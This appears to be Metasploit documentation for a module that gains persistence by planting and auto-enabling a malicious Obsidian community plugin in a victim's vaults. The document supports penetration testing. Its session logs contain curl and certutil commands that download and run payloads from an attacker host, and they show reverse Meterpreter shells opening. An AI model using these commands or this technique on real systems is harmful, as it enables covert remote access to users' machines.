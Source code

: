 ## Vulnerable Application

This module searches for Obsidian vaults for a user, and uploads a malicious
community plugin to the vault. The vaults must be opened with community
plugins enabled (NOT restricted mode), but the plugin will be enabled
automatically.

Tested against Obsidian 1.7.7 on Kali, Ubuntu 22.04, and Windows 10.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a user shell on the target
4. Do: `use multi/local/obsidian_plugin_persistence`
5. Do: Select a shell which will work on your target OS
6. Do: `run`
7. You should get a shell when the target user opens the vault without restricted mode.

## Options

### NAME

Name of the plugin. Defaults to being randomly generated.

### USER

The user to target. Defaults the user the shell was obtained under.

### CONFIG

Config file location on target. Defaults to empty which will search the default locations.

## Scenarios

### Version and OS

Get a user shell.

```
msf6 exploit(multi/script/web_delivery) > use exploit/multi/local/obsidian_plugin_persistence
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/local/obsidian_plugin_persistence) > set session 1
session => 1
msf6 exploit(multi/local/obsidian_plugin_persistence) > set verbose true
verbose => true
msf6 exploit(multi/local/obsidian_plugin_persistence) > exploit

[*] Command to run on remote host: curl -so ./HvxtaAdZVc http://1.1.1.1:8080/aZRe4yWUN3U2-lDtdsaGlA; chmod +x ./HvxtaAdZVc; ./HvxtaAdZVc &
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /aZRe4yWUN3U2-lDtdsaGlA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: xQem
[*] Target User: ubuntu
[*] Found user obsidian file: /home/ubuntu/.config/obsidian/obsidian.json
[+] Found open vault 83ca6e5734f5dfc4: /home/ubuntu/Documents/test
[*] Uploading plugin to vault /home/ubuntu/Documents/test
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/main.js
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/manifest.json
[*] Found 1 enabled community plugins (sX2sv4)
[*] adding xQem to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 2.2.2.2 requested /aZRe4yWUN3U2-lDtdsaGlA
[*] Sending payload to 2.2.2.2 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49192) at 2024-12-05 10:19:32 -0500

meterpreter > getuid
Server username: ubuntu
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Obsidian 1.7.7 on Windows 10

```

msf6 exploit(multi/local/obsidian_plugin_persistence) > rexploit
[*] Reloading module...

[*] Command to run on remote host: certutil -urlcache -f http://1.1.1.1:8080/bXCLrS0dWKPwEfygT3FJNA %TEMP%\FDTcKUuwF.exe & start /B %TEMP%\FDTcKUuwF.exe
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /bXCLrS0dWKPwEfygT3FJNA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: pPq0K
[*] Target User: h00die
[*] Found user obsidian file: C:\Users\h00die\AppData\Roaming\obsidian\obsidian.json
[+] Found open vault 69172dadc065de73: C:\Users\h00die\Documents\vault
[*] Uploading plugin to vault C:\Users\h00die\Documents\vault
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/main.js
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/manifest.json
[*] Found 0 enabled community plugins ()
[*] adding pPq0K to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (Microsoft-CryptoAPI/10.0)
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (CertUtil URL Agent)
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 3.3.3.3:51369) at 2024-12-05 09:24:24 -0500

meterpreter > getuid
Server username: DESKTOP-3ASD0R4\h00die
meterpreter > sysinfo
Computer        : DESKTOP-3ASD0R4
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
